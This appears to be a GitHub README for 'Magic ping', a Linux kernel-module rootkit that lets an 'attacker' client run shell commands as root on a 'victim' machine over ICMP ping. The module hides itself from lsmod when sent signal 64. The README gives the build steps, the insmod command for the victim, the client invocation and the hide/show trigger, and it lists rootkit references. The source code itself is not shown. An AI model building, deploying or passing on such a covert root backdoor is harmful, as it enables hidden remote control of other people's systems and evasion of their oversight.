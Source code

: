 Magic ping - shell execution

<div align="center">

![Ping - ICMPv4](https://img.shields.io/badge/Ping-ICMPv4-2ea44f) ![License - MIT](https://img.shields.io/badge/License-MIT-blue) 
![Security - Post penetration](https://img.shields.io/badge/Security-Post_penetration-yellow) 

![Tested on - 5.4.0-109-generic #123-Ubuntu x86_64 GNU/Linux](https://img.shields.io/badge/Tested_on-5.4.0--109--generic_%23123--Ubuntu_x86__64_GNU%2FLinux-orange)
![Tested on - 5.13.0-40-generic #45~20.04.1-Ubuntu x86_64 GNU/Linux](https://img.shields.io/badge/Tested_on-5.13.0--40--generic_%2345~20.04.1--Ubuntu_x86__64_GNU%2FLinux-orange)
</div>

## Features:

* Romete shell command execution by ping.
* Hiding (Showing) Kernel Module from Userspace. 

## Asciinema Demo

[![asciicast](https://asciinema.org/a/7dceXAVrCSqyaNmvfiD6L51rM.svg)](https://asciinema.org/a/7dceXAVrCSqyaNmvfiD6L51rM)

## Compile 

### compile server(victim) kernel module:
```bash
cd server && make
```

**Client(attacker):**

```bash
cd client && make
```

**Romete server (victim):**

```
sudo insmod server.mod
```

## Local attacker:

Need root privilege to send icmp packets for ping.
```
sudo ./client <victim ip address>
```

Then you can let remote victim execute whatever shell command you input as root privilege (some command may need full path).

## Hide(Show) remote kernel module:

Send signal 64 to show or hide:
```
kill -64 1
```
Use `lsmod` to check.


## Thanks && Reference：

* [Hacking the Linux Kernel Network Stack](http://phrack.org/issues/61/13.html)
* [Does tcpdump bypass iptables?](https://superuser.com/questions/925286/does-tcpdump-bypass-iptables)
* [linux-network-programming-ping.c](https://github.com/coding-fans/linux-network-programming/blob/master/src/c/icmp/ping/ping.c)
* [Given a git commit hash, how to find out which kernel release contains it?](https://unix.stackexchange.com/questions/45120/given-a-git-commit-hash-how-to-find-out-which-kernel-release-contains-it)
* [Linux Rootkits Part 5: Hiding Kernel Modules from Userspace](https://xcellerator.github.io/posts/linux_rootkits_05/)
* [Hooking Linux Kernel Functions, Part 2: How to Hook Functions with Ftrace](https://www.apriorit.com/dev-blog/546-hooking-linux-functions-2)
